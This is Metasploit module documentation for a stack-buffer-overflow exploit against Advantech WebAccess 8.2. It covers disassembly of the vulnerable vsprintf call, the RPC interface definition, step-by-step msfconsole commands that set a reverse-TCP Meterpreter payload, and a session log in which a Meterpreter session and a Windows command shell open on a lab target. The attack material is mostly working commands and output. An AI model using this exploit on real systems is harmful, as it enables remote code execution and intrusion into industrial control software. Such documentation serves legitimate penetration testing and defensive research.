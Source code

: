 ## Vulnerable Application

  [Advantech WebAccess <= 8.2](http://advcloudfiles.advantech.com/web/Download/webaccess/8.2/AdvantechWebAccessUSANode8.2_20170330.exe)

## Vulnerability Analysis

The stack overflow happens in sub_10004BC8:

```
.text:10004BC8 ; int __cdecl sub_10004BC8(char *Format, char)
.text:10004BC8 sub_10004BC8    proc near               ; 
.text:10004BC8                                         ;
.text:10004BC8
.text:10004BC8 lpWindowName    = dword ptr -818h
.text:10004BC8 hWnd            = dword ptr -814h
.text:10004BC8 lpClassName     = dword ptr -810h
.text:10004BC8 Args            = dword ptr -80Ch
.text:10004BC8 lpBaseAddress   = dword ptr -808h
.text:10004BC8 hFileMappingObject= dword ptr -804h
.text:10004BC8 Dest            = byte ptr -800h
.text:10004BC8 Format          = dword ptr  8
.text:10004BC8 arg_4           = byte ptr  0Ch
.text:10004BC8
.text:10004BC8                 push    ebp
.text:10004BC9                 mov     ebp, esp
.text:10004BCB                 sub     esp, 818h
.text:10004BD1                 mov     [ebp+lpWindowName], offset aDebugScreen1    ; "Debug Screen1"
.text:10004BDB                 mov     [ebp+lpClassName], offset aDebugwclass1     ; "debugWClass1"
.text:10004BE5                 lea     eax, [ebp+arg_4]
.text:10004BE8                 mov     [ebp+Args], eax
.text:10004BEE                 mov     ecx, [ebp+Args]
.text:10004BF4                 push    ecx                                         ; Args
.text:10004BF5                 mov     edx, [ebp+Format]
.text:10004BF8                 push    edx                                         ; Format
.text:10004BF9                 lea     eax, [ebp+Dest]
.text:10004BFF                 push    eax                                         ; Dest
.text:10004C00                 call    ds:vsprintf                                 ; overflow
```

The corresponding IDL is below:

```
[
 uuid(5d2b62aa-ee0a-4a95-91ae-b064fdb471fc),
 version(1.0)
]

interface target_interface
{

/* opcode: 0x01, address: 0x00401260 */

void sub_401260 (
 [in] handle_t  arg_1,
 [in] long  arg_2,
 [in] long  arg_3,
 [in] long  arg_4,
 [in][ref][size_is(arg_4)] char * arg_5,
 [out][ref] long * arg_6
);

}
```

## Verification Steps

  1. Start `msfconsole`
  2. `use exploits/windows/scada/advantech_webaccess_webvrpcs_bof`
  3. `set payload windows/meterpreter/reverse_tcp`
  4. `set LHOST XXX.XXX.XXX.XXX`
  5. `exploit`
  6. **Verify** you get a connect back meterpreter


## Options

  None.

## Scenarios

  ```
saturn:metasploit-framework mr_me$ ./msfconsole -qr scripts/advantech.rc 
[*] Processing scripts/advantech.rc for ERB directives.
resource (scripts/advantech.rc)> use exploit/windows/scada/advantech_webaccess_webvrpcs_bof
resource (scripts/advantech.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (scripts/advantech.rc)> set RHOST 172.16.175.136
RHOST => 172.16.175.136
resource (scripts/advantech.rc)> set LHOST 172.16.175.1
LHOST => 172.16.175.1
resource (scripts/advantech.rc)> exploit
[*] Started reverse TCP handler on 172.16.175.1:4444 
[*] 172.16.175.136:4592 - Binding to 5d2b62aa-ee0a-4a95-91ae-b064fdb471fc:1.0@ncacn_ip_tcp:172.16.175.136[4592] ...
[*] 172.16.175.136:4592 - Bound to 5d2b62aa-ee0a-4a95-91ae-b064fdb471fc:1.0@ncacn_ip_tcp:172.16.175.136[4592] ...
[+] 172.16.175.136:4592 - Got a handle: 0x01ef2558
[*] 172.16.175.136:4592 - Trying target Windows 7 x86 - Advantech WebAccess 8.2-2017.03.31...
[*] Sending stage (179779 bytes) to 172.16.175.136
[*] Meterpreter session 1 opened (172.16.175.1:4444 -> 172.16.175.136:49206) at 2017-12-11 11:32:15 -0600
[*] 172.16.175.136:4592 - The DCERPC service did not reply to our request

meterpreter > shell
Process 5208 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\WebAccess\Node>
```
